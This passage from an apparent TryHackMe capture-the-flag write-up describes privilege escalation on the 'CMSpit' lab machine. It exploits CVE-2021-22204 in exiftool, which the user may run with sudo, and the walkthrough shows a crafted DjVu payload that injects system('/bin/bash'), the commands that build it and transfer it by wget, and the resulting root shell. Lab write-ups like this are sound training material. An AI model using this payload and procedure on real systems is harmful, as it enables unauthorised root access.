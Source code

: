 The user stux can run the command /usr/local/bin/exiftool as root with out the root password. Normally, I would now go to GTFObins to look for a priv esc, however the room questions indicate a CVE vulnerability so I googled 'exiftools CVE' and found this [blog](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/). 

In the blog it details the steps of how to exploit the vulnerability which is:

>$ sudo apt install djvulibre-bin
> 
>$ bzz payload payload.bzz
> 
>$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

Back on my local machine, I created a payload file with the following contents ```(metadata "\c${system('/bin/bash')};")```, then followed the steps above.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/CMSpit]
└──╼ $cat payload
(metadata "\c${system('/bin/bash')};")
┌─[daz@parrot]─[~/Documents/TryHackMe/CMSpit]
└──╼ $sudo apt install djvulibre-bin
Reading package lists... Done
Building dependency tree       
Reading state information... Done
djvulibre-bin is already the newest version (3.5.28-2).
The following packages were automatically installed and are no longer required:
  gdal-data libaec0 libarmadillo9 libarpack2 libboost-locale1.67.0 libcfitsio8 libcharls2 libdap25 libdapclient6v5 libepsilon1 libfreexl1 libfyba0 libgdal26 libgeos-3.8.1
  libgeos-c1v5 libgeotiff5 libgfapi0 libgfrpc0 libgfxdr0 libglusterfs0 libhdf4-0-alt libhdf5-103 libkmlbase1 libkmldom1 libkmlengine1 libnetcdf15 libogdi4.1 liborcus-0.15-0
  liborcus-parser-0.15-0 libproj19 libpython3.7-minimal libpython3.7-stdlib libpython3.8-dev libqhull7 libspatialite7 libsuperlu5 libsz2 liburiparser1 libxerces-c3.2 odbcinst
  odbcinst1debian2 proj-bin proj-data python3-gridfs python3.7 python3.7-minimal python3.8-dev
Use 'sudo apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 2541 not upgraded.
┌─[daz@parrot]─[~/Documents/TryHackMe/CMSpit]
└──╼ $bzz payload payload.bzz
┌─[daz@parrot]─[~/Documents/TryHackMe/CMSpit]
└──╼ $djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
┌─[daz@parrot]─[~/Documents/TryHackMe/CMSpit]
└──╼ $ls -la exploit.djvu 
-rw-r--r-- 1 daz daz 92 Aug  8 12:13 exploit.djvu
┌─[daz@parrot]─[~/Documents/TryHackMe/CMSpit]
└──╼ $
```

Finaly I started a Python webserver with the command ```sudo python3 -m http.server 80```. Next back on cmspit machine I downloaded the exploit.djvu file with wget and ran the exif tool as sudo against the exploit file and got root!

```highlight
stux@ubuntu:~$ wget http://<Local Machine>/exploit.djvu
--2021-08-08 04:16:42--  http://<Local Machine>/exploit.djvu
Connecting to <Local Machine>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 92 [image/vnd.djvu]
Saving to: ‘exploit.djvu’

exploit.djvu                                 100%[===========================================================================================>]      92  --.-KB/s    in 0s

2021-08-08 04:16:42 (17.8 MB/s) - ‘exploit.djvu’ saved [92/92]

stux@ubuntu:~$ sudo /usr/local/bin/exiftool exploit.djvu 
root@ubuntu:~# whoami
root
```